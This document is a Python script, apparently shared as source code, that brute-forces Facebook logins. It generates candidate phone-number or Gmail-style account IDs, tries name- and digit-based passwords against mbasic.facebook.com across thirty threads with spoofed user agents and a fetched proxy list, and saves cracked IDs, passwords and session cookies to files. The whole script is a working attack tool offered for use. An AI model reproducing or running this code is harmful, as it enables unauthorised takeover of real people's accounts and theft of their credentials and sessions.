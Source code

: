 import os,sys,time,json,random,re,string,platform,base64,uuid
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
import requests as ress
from datetime import date
from datetime import datetime
from time import sleep
from os import system as s
from time import sleep as waktu
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures bs4==2 > /dev/null')
    os.system('pip install bs4')
RED = '\033[1;91m'
WHITE = '\033[1;97m'
GREEN = '\033[1;32m' 
YELLOW = '\033[1;33m'
BLUE = '\033[1;34m'
ORANGE = '\033[1;35m'
P = '\x1b[1;97m' 
M = '\x1b[1;91m' 
H = '\x1b[1;92m' 
K = '\x1b[1;93m' 
B = '\x1b[1;94m' 
U = '\x1b[1;95m' 
O = '\x1b[1;96m' 
N = '\x1b[0m'    
A = '\x1b[1;90m' 
BN = '\x1b[1;107m' 
BBL = '\x1b[1;106m' 
BP = '\x1b[1;105m' 
BB = '\x1b[1;104m' 
BK = '\x1b[1;103m' 
BH = '\x1b[1;102m' 
BM = '\x1b[1;101m' 
BA = '\x1b[1;100m' 
now = datetime.now()
dt_string = now.strftime("%H:%M")
current = datetime.now()
ta = current.year
bu = current.month
ha = current.day
today = date.today() 
loop = 0
oks = []
cps = []
ugen2=[]
ugen=[]
cokbrut=[]
ses=requests.Session()
princp=[]
try:
 prox= requests.get('https://api.proxyscrape.com/v2/?request=displayproxies&protocol=socks4&timeout=100000&country=all&ssl=all&anonymity=all').text
 open('.prox.txt','w').write(prox)
except Exception as e:
 print('')
prox=open('.prox.txt','r').read().splitlines()
for xd in range(10000):
	aa='Mozilla/5.0 (Windows NT 6.1; WOW64)'
	b=random.choice(['4','5','6','7','8','9','10','11','12'])
	c='ASUS_I006D Build/RKQ1.201022.002'
	d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
	e=random.randrange(1, 999)
	f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
	g='AppleWebKit/537.36 (KHTML, seperti Gecko) Chrome/55.0.2883.87 Safari/537.36 Sleipnir/6.2.3'
	h=random.randrange(73,100)
	i='0'
	j=random.randrange(4200,4900)
	k=random.randrange(40,150)
	l='Mobile Safari/537.36 Sleipnir/3.5.28'
	uakua=f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}'
	ugen.append(uakua)

logo = ("""  
 \033[1;32m╔══════════════════════════════════════════════════════════╗\033[1;93m
\033[1;32m║	         \033[1;93m ─━<🌺Assalamu Alaikum🌺>━─\033[1;32m	           ║
\033[1;32m╔══════════════════════════════════════════════════════════╗

\033[1;32m╚═════════════════════════════════════════════════════════════════╝""")
class Main:
    def __init__(self):
        self.id = []
        self.ok = []
        self.cp = []
        self.loop = 0
        os.system("clear")
        print(logo)
        print(f" \033[38;5;46m♧♧♧♧♧♧♧♧♧♧♧♧R4KIB♧♧♧♧♧♧♧♧♧♧♧♧♧♧♧♧♧♧♧♧")
        print(" [01] \033[38;5;46m𝙍𝘼𝙉𝘿𝙊𝙈-𝙉𝙐𝙈𝘽𝙀𝙍-𝘾𝙇𝙊𝙉𝙀 [𝙒𝙊𝙍𝙆𝙄𝙉𝙂")
        print(" [02] \033[38;5;46m𝙍𝘼𝙉𝘿𝙊𝙈-𝙂𝙈𝘼𝙄𝙇-𝘾𝙇𝙊𝙉𝙀 [𝙒𝙊𝙍𝙆𝙄𝙉𝙂] ")
        print(" [00] \033[38;5;46mEXIT-WAY")
        print(f" \033[38;5;46m")
        Mumit =input(" [?] 𝘾𝙃𝙊𝙊𝙎𝙀___((((🖤)))) : ")
        if Mumit in ["1", "01"]:
            num()
        if Mumit in ["2","02"]:
            gml()
        if Mumit in [" 0", "00"]:
            exit()
        else:
            exit()
def num():
    user=[]
    os.system('clear')
    print(logo)
    print(' [+] EXAMPLE : 017, 018, 019, 016, 013, 014 ')
    
    kode = input(' [?] Enter sim code: ')
    kodex = ''.join(random.choice(string.digits) for _ in range(2))
    kod = ''.join(random.choice(string.digits) for _ in range(2))
    os.system('clear')
    print(logo)
    print(' [+] EXAMPLE : 3000, 5000, 10000, 50000 ')
   
    limit = int(input(' [?] Crack Your Limit : '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(4))
        user.append(nmp)
    with ThreadPool(max_workers=30) as yaari:
        os.system('clear')
        print(logo)
        tl = str(len(user))
        print(' \033[38;5;46m[+] 𝙏𝙊𝙏𝘼𝙇{{{𝙄𝘿𝙎}}}:\033[38;5;46m '+tl)
        print(f" \033[38;5;46m❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥")
        print("\033[38;5;46m┌━━━━━━━━━━━━━━━┐        \033[38;5;46m┌━━━━━━━━━━━━━━━━┐")
        print(f'\033[38;5;46m│ \033[38;5;46m𝙔𝙊𝙐𝙍 𝘾𝙃𝙊𝙄𝘾𝙀   \033[38;5;46m│       \033[38;5;46m │    \033[38;5;46m𝙀𝙈𝙇/𝘾𝙇𝙊𝙉𝙀 \033[38;5;46m \033[38;5;46m │ ')
        print(f"\033[38;5;46m│ \033[38;5;46m𝘾𝙍𝘼𝘾𝙆 𝙎𝙏𝘼𝙍𝙏  \033[38;5;46m │     \033[38;5;46m   │   \033[38;5;46m𝙏𝙄𝙈𝙀/{dt_string}  \033[38;5;46m\033[38;5;46m │")
        print("\033[38;5;46m└━━━━━━━━━━━━━━━┘      \033[38;5;46m  └━━━━━━━━━━━━━━━━┘\n")
        print(f" \033[38;5;46m❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥")
        for guru in user:
            uid = kode+kodex+kod+guru
            pwx = [kode+kodex+kod+guru,kod+guru,kodex+guru,kode+kodex+kod,]
            yaari.submit(rcrack1,uid,pwx,tl)
    print(' [+] Crack process has been completed')
    print(' [+] Ids saved in ARAFAT-ok.txt,ARAFAT-cp.txt')

def gml():
    user=[]
    os.system('clear')
    print(logo)
    kode = input(' [+] \033[38;5;46mFAST NAME : ')
    os.system('clear')
    os.system('xdg-https://facebook.com/groups/1035734253633702/')
    print(logo)
    kodex = input(' [+] \033[38;5;46mLAST NAME :  ')
    os.system('clear')
    print(logo) 
    print(' [+] \033[38;5;46mEXAMPLE : @gmail.com, @yahoo.com ')
   
    doamin = input(' [?] \033[38;5;46mChoose doamin : ')
    os.system('clear')
    print(logo)
    print(' [+] \033[38;5;46mEXAMPLE : 3000, 5000, 10000, 50000 ')
    
    limit = int(input('[?] \033[38;5;46mCrack Limit : '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(1,4))
        user.append(nmp)
    with ThreadPool(max_workers=30) as yaari:
        os.system('clear')
        print(logo)
        tl = str(len(user))
        print(' \033[38;5;46m[+] 𝙏𝙊𝙏𝘼𝙇{{{𝙄𝘿𝙎}}}:\033[38;5;46m '+tl)
        print(f" \033[38;5;46m❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥")
        print("\033[38;5;46m┌━━━━━━━━━━━━━━━┐        \033[38;5;46m┌━━━━━━━━━━━━━━━━┐")
        print(f'\033[38;5;46m│ \033[38;5;46m𝙔𝙊𝙐𝙍 𝘾𝙃𝙊𝙄𝘾𝙀   \033[38;5;46m│       \033[38;5;46m │    \033[38;5;46m𝙀𝙈𝙇/𝘾𝙇𝙊𝙉𝙀 \033[38;5;46m \033[38;5;46m │ ')
        print(f"\033[38;5;46m│ \033[38;5;46m𝘾𝙍𝘼𝘾𝙆 𝙎𝙏𝘼𝙍𝙏  \033[38;5;46m │     \033[38;5;46m   │   \033[38;5;46m𝙏𝙄𝙈𝙀/{dt_string}  \033[38;5;46m\033[38;5;46m │")
        print("\033[38;5;46m└━━━━━━━━━━━━━━━┘      \033[38;5;46m  └━━━━━━━━━━━━━━━━┘\n")
        print(f" \033[38;5;46m❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥❥")
        for guru in user:
            uid = kode+kodex+guru+doamin
            pwx = [kode,kodex,kode+kodex,kode+'123',kode+'1234',kode+'12345',kode+guru,kodex+'123',kodex+'1234',kodex+'12345']
            yaari.submit(rcrack1,uid,pwx,tl)
    print(' [+] \033[38;5;46mCrack process has been completed')
    print(' [+] \033[38;5;46mIds saved in ARAFAT-ok.txt,ARAFAT-cp.txt')
def rcrack1(uid,pwx,tl):
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            sys.stdout.write('\r[\033[1;92m[\033[38;5;46mBOSS__ARAFAT]\033[1;97m] > [%s/%s] > [OK\033[1;97m:-\033[1;92m%s\033[1;97m] - [CP\033[1;97m:-\033[1;91m%s\033[1;97m] \r'%(loop,tl,len(oks),len(cps))),
            sys.stdout.flush()
            free_fb = session.get('https://mbasic.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb =  {'authority': 'mbasic.facebook.com',
            'method':'GET',
            'path':'/login/device-based/regular/login/?refsrc=deprecated&lwv=101&ref=dbl',
            'scheme':'https',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'accept-language': 'en-US,en;q=0.9',
            'cache-control': 'max-age=0',
            'referer': 'https://mbasic.facebook.com/',
            'sec-ch-ua': '"(Not(A:Brand";v="99", "Chromium";v="113", "Opera";v="96"',
            'sec-ch-ua-mobile': '?0',
            'sec-ch-ua-platform': '"Windows"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'same-origin',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent': pro }
            lo = session.post('https://mbasic.facebook.com/login/device-based/regular/login/?refsrc=deprecated&lwv=100&refid=8',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print(f"\033[38;5;46m[ARAFAT-OK🐼] {uid} | {ps}")
                print(f" Cookie : {coki}")
                open('/sdcard/ARAFAT-ok.txt', 'a').write( uid+' | '+ps+'\n')
                oks.append(uid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[82:97]
                #print(f"\x1b[38;5;196m[ARAFAT-CP🍾] {uid}|{ps}")
                #open('/sdcard/ARAFAT-cp.txt', 'a').write( uid+' | '+ps+' \n')
                cps.append(uid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\033[38;5;46m[𝘽𝙊𝙎𝙎____ARAFAT] \033[38;5;46m%s\033[38;5;46m |\033[m[\033[38;5;46mOK:\033[\033[38;5;46m%s\033[38;5;46m] '%(loop,len(oks))),
        sys.stdout.flush()
    except:
        pass
Main()
